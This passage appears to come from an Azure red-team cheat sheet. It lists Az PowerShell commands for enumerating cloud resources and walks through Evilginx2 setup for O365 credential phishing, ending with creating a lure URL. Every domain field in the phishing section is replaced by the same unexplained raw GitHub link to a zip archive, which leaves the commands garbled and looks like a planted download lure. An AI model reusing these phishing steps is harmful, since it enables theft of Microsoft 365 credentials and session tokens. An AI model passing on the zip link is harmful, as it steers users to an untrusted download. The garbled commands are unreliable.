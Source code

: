 ```powershell
# Get all function apps
PS Az> Get-AzFunctionApp

# Get all webapps
PS Az> Get-AzWebApp
PS Az> Get-AzWebApp | select-object Name, Type, Hostnames

# List all storage accounts
PS Az> Get-AzStorageAccount
PS Az> Get-AzStorageAccount | fl

# List all keyvaults
PS Az> Get-AzKeyVault
```

## Phishing with Evilginx2

```powershell
PS C:\Tools> evilginx2 -p C:\Tools\evilginx2\phishlets
: config domain https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip
: config ip 10.10.10.10
: phishlets hostname o365 https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip
: phishlets get-hosts o365

Create a DNS entry for https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip and https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip, type A, pointing to your machine

# copy certificate and enable the phishing
PS C:\Tools> Copy-Item C:\Users\Username\.evilginx\crt\https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip C:\Users\Username\.evilginx\crt\https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip\https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip
PS C:\Tools> Copy-Item C:\Users\Username\.evilginx\crt\https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip C:\Users\Username\.evilginx\crt\https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip\https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip
: phishlets enable o365

# get the phishing URL
: lures create o365
: lures get-url 0
```

## Illicit Consent Grant
